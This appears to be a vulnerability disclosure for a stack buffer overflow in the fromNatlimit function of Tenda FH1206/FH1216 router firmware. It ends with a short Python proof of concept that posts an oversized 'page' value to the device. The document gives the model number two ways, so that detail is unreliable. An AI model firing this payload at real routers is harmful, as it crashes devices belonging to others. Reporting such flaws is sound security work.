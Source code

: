 # fromNatlimit

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **fromNatlimit** function. The function receives the `page` parameter from a POST request. `   sprintf(v4, "lan_controllist.asp?page=%s", v2);` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v4` array, thereby triggering this security vulnerability.

![image](https://github.com/user-attachments/assets/7a84529f-7a8a-44e0-bf6e-fc70203d573a)


## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/Natlimit"
payload = b"a"*2000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image](https://github.com/user-attachments/assets/e2e5f88e-99fe-4de0-8113-814f628d02bd)
